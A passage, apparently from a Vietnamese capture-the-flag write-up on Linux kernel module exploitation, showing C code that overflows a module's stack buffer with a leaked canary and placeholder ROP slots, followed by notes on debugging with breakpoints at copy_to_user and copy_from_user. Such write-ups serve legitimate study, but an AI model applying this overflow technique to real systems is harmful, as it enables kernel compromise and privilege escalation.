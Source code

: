 ```c
void write_module()
{
    long int tmp[0x20];
    memset(tmp, 'a', 0x10 * 8);
    tmp[0x10] = canary;
    tmp[0x11] = 0;                        // pop rdx
    tmp[0x12] = 0;                        // pop r12
    tmp[0x13] = 0;                        // pop r12
    int check = write(fd_ko, tmp, sizeof(tmp));
    if (check < 0)
    {
        printf("write fail\n");
    }
}

int main()
{
    setbuf(stdin, 0);
    setbuf(stderr, 0);
    setbuf(stdout, 0);
    open_module();
    read_module();
    write_module();
}
```

- Để kiểm tra chính xác, mình sẽ phải debug. Do bài này hình như có lớp bảo vệ nào đó khiến cho các hàm trong module sắp xếp khác so với khi ta mở ida module. Do vậy ta sẽ phải đọc asm, đặt break ở các chỗ call `_memcpy`, `copy_to_user`, `copy_from_user`
  ![Alt text](bin/image-1.png)
- Break ở copy_to_user